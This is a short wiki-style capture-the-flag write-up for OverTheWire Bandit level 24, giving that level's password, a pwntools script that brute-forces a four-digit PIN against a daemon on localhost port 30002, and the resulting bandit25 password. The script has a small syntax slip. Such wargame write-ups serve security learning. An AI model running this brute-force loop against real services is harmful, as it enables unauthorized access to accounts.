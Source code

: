 [Category:OverTheWire-Bandit](/Category:OverTheWire-Bandit "wikilink")
creds bandit24 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

Level Goal

A daemon is listening on port 30002 and will give you the password for
bandit25 if given the password for bandit24 and a secret numeric 4-digit
pincode. There is no way to retrieve the pincode except by going through
all of the 10000 combinations, called brute-forcing.

from pwn import \* pass24="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ " pin = 0 sh
= remote('localhost',30002) print(sh.readline())

for i in range(2150,10000):

`   print(i)`
`   sh.sendline(pass24 + str(format(i,"04d"))`
`   line = sh.readline()`

`   if("Wrong" not in line):`
`       print(line)`
`       print(i)`
`       break;`

UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5591 Correct\! The password of user
bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
